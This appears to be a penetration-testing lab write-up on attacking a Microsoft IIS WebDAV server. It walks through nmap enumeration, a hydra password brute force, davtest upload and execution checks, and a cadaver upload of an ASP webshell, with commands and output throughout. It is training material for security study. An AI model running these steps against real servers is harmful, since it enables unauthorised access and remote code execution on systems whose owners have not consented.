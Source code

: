# Exploiting Microsoft IIS WebDAV

## Tools used:

[Davtest](https://code.google.com/archive/p/davtest/):

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

***

First of all, let's perform a basic Nmap scan:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:04 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
<strong>80/tcp open  http    Microsoft IIS httpd 10.0
</strong>| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Date: Sat, 30 Dec 2023 09:35:07 GMT
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
</code></pre>

This doesn't give us proper information for webDav, let try to run the enum script:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26 --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:08 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
<strong>|_  /webdav/: Potentially interesting folder (401 Unauthorized)
</strong>|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

We found a wedav directory which gives us 401, which means we need authentication to access the directory. We can brute force the login credentials using hydra:

```sh
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.5.27.26 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-30 15:14:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.5.27.26:80/webdav/
1 of 1 target completed, 0 valid password found
```

This was just an example that how to perform brute force in this case.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and this is how it looks.

So now we know that Webdav allows us to download or upload the files within this directory. So we can use a tool for this that already comes with kali Linux:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.5.27.26/webdav	Unauthorized. Basic realm="10.5.27.26"
```

This was the basic usage of davtest. to connect to webdav, we need to give it a valid credentials like this:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav -auth bob:password_123321
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.5.27.26/webdav
********************************************************
NOTE	Random string for this session: zQDBIXMfsh
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
PUT	jsp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jsp
PUT	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
PUT	cgi	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cgi
PUT	php	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.php
PUT	html	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.html
PUT	jhtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jhtml
PUT	pl	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.pl
PUT	shtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.shtml
PUT	aspx	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.aspx
PUT	cfm	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cfm
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
EXEC	jsp	FAIL
EXEC	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
.
.
```

The connection is successful.

To upload, download or modify files, we can now use the cadaver utility:

```sh
root@attackdefense:~# cadaver http://10.5.27.26/webdav
Authentication required for 10.5.27.26 on server `10.5.27.26':
Username: bob
Password: 
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

Here we upload an ASP webshell.

> Webshells comes pre-packages in kali linux at the following path
>
> ```sh
> root@attackdefense:~# ls /usr/share/webshells/
> asp  aspx  cfm	jsp  laudanum  perl  php  seclists
> ```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Our shell is working correctly.
